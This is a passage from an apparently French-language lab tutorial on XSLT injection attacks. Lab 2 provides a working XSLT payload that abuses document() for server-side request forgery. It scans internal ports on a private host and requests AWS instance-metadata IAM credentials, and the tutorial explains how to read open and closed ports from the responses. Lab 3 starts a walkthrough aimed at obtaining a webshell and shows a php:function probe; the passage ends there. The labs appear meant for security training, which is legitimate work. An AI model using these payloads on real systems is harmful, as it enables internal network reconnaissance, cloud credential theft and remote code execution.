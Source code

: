 ***

#### 🧪 Lab 2 : SSRF pour scan de ports internes

**Objectif :** Scanner les ports internes d'un réseau privé

**XSLT :**

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <html>
      <body>
        <h2>Scan de ports internes</h2>
        
        <!-- Test port 22 (SSH) -->
        <h3>192.168.1.10:22</h3>
        <xsl:copy-of select="document('http://192.168.1.10:22')"/>
        
        <!-- Test port 80 (HTTP) -->
        <h3>192.168.1.10:80</h3>
        <xsl:copy-of select="document('http://192.168.1.10:80/admin')"/>
        
        <!-- Test port 3306 (MySQL) -->
        <h3>192.168.1.10:3306</h3>
        <xsl:copy-of select="document('http://192.168.1.10:3306')"/>
        
        <!-- Metadata AWS -->
        <h3>AWS Metadata</h3>
        <xsl:copy-of select="document('http://169.254.169.254/latest/meta-data/iam/security-credentials/')"/>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

**Analyse des résultats :**

* Timeout = Port fermé ou filtré
* Erreur de parsing = Port ouvert (service répond)
* Contenu affiché = Service HTTP accessible

***

#### 🧪 Lab 3 : RCE via PHP

**Objectif :** Obtenir un webshell sur un serveur PHP

**Étape 1 : Vérifier si PHP wrapper est disponible**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" 
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
      xmlns:php="http://php.net/xsl">
  <body>
    <xsl:value-of select="php:function('phpversion')"/>
  </body>
</html>
```
